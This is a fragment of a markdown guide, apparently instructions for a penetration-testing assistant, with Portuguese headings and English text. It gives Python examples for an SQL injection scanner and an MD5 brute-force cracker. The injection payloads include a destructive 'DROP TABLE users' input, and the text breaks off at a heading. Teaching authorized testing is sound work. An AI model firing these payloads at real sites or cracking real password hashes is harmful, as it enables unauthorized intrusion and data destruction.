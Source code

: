 `````markdown

**Scans de Automação:**
- Integrate with tools like OWASP ZAP, Burp Suite, or sqlmap via API.
- Develop custom scanners for specific tests.

**Exemplo de Código:**
```python
import requests

def test_sql_injection(url, payloads):
    vulnerabilities = []
    for payload in payloads:
        test_url = f"{url}?id={payload}"
        response = requests.get(test_url)
        if "error" in response.text.lower() or "syntax" in response.text.lower():
            vulnerabilities.append(payload)
    return vulnerabilities

# Example: Test common SQL Injection payloads
payloads = ["' OR '1'='1", "' UNION SELECT NULL--", "1; DROP TABLE users--"]
print(test_sql_injection("http://example.com/page", payloads))
```

#### 3. Password Cracking
**Técnicas de Ataque:**
- Brute force with custom wordlists.
- Dictionary attacks with mutation rules (e.g., hashcat).
- Rainbow tables for common hashes (e.g., MD5, SHA1).

**Automação em Python:**
- Integrate with libraries like hashlib, requests for authentication.
- Optimize performance using concurrency (e.g., asyncio, threading).

**Exemplo de Código:**
```python
import hashlib
import itertools
import string

def brute_force_hash(target_hash, charset=string.ascii_lowercase + string.digits, max_length=8):
    for length in range(1, max_length + 1):
        for attempt in itertools.product(charset, repeat=length):
            guess = ''.join(attempt)
            guess_hash = hashlib.md5(guess.encode()).hexdigest()
            if guess_hash == target_hash:
                return guess
    return None

# Example: Break an MD5 hash
target_hash = "e99a18c428cb38d5f260853678922e03"  # Hash for "abc123"
print(brute_force_hash(target_hash))
```

### Diretrizes de Resposta

#### OSINT
- Suggest reliable data sources and public APIs.
- Alert about the legal limits on data collection and the need for explicit authorization.

#### Web Applications
- Emphasize the importance of authorized testing and compliance with legal standards.
- Recommend using proxy tools like Burp Suite for complementary manual analysis.

#### Password Cracking
`````
